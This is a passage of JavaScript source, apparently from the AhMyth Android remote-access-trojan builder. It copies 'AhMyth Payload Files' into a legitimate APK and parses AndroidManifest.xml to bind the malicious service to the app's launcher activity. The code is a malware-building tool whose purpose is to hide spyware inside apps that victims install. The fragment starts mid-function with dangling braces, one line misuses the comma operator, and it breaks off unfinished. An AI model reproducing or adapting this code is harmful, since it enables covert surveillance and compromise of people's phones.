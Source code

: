 ```js  
                                $appCtrl.Log();
                                return;
                            }

                            var regex = /[^/]+\//;
                            var str = (apkFolder, launcherPath);
                            var m = str.match(regex);

                            var smaliFolder = m[0];

                            $appCtrl.Log("Copying AhMyth Payload Files to Orginal APK...");
                            fs.copy(path.join(CONSTANTS.ahmythApkFolderPath, "smali"), path.join(apkFolder, smaliFolder), (error) => {
                                if (error) {
                                    $appCtrl.Log('Copying Failed!', CONSTANTS.logStatus.FAIL);
                                    $appCtrl.Log();
                                    return;
                                }
                            
                                $appCtrl.GenerateApk(apkFolder)
                                    
                                });
                                
                            });

                        });

                    });

                };

            });

        });

    };
```
### Backup Cross Platform Bind On Launch function
```js
$appCtrl.BindOnLauncher = (apkFolder) => {

    $appCtrl.Log('Finding Launcher Activity From AndroidManifest.xml...');
    $appCtrl.Log();
    fs.readFile(path.join(apkFolder, "AndroidManifest.xml"), 'utf8', (error, data) => {
        if (error) {
            $appCtrl.Log('Reading AndroidManifest.xml Failed!', CONSTANTS.logStatus.FAIL);
            $appCtrl.Log();
            return;
        }

        var launcherActivity = GetLauncherActivity(data, apkFolder);
        if (launcherActivity == -1) {
            $appCtrl.Log("Cannot Find the Launcher Activity in the Manifest!", CONSTANTS.logStatus.FAIL);
            $appCtrl.Log("Please use Another APK as a Template!.", CONSTANTS.logStatus.INFO);
            $appCtrl.Log();
            return;
        }

        var ahmythService = CONSTANTS.ahmythService;
        $appCtrl.Log('Modifying AndroidManifest.xml...');
        $appCtrl.Log();
```